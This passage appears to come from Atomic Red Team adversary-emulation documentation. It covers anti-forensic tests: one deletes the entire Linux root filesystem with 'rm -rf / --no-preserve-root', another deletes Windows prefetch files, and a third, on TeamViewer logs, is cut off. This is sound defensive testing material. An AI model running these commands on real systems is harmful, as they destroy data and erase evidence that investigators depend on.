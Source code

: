 


<br/>
<br/>

## Atomic Test #8 - Delete Filesystem - Linux

auto_generated_guid: f3aa95fe-4f10-4485-ad26-abf22a764c52

This test deletes the entire root filesystem of a Linux system. This technique was used by Amnesia IoT malware to avoid analysis. This test is dangerous and destructive, do NOT use on production equipment.
**Supported Platforms:** Linux





#### Attack Commands: Run with `bash`! 


```bash
rm -rf / --no-preserve-root > /dev/null 2> /dev/null
```






<br/>
<br/>

## Atomic Test #9 - Delete Prefetch File

auto_generated_guid: 36f96049-0ad7-4a5f-8418-460acaeb92fb

Delete a single prefetch file.  Deletion of prefetch files is a known anti-forensic technique. To verify execution, Run "(Get-ChildItem -Path "$Env:SystemRoot\prefetch\*.pf" | Measure-Object).Count"
before and after the test to verify that the number of prefetch files decreases by 1.
**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Remove-Item -Path (Join-Path "$Env:SystemRoot\prefetch\" (Get-ChildItem -Path "$Env:SystemRoot\prefetch\*.pf" -Name)[0])
```






<br/>
<br/>

## Atomic Test #10 - Delete TeamViewer Log Files
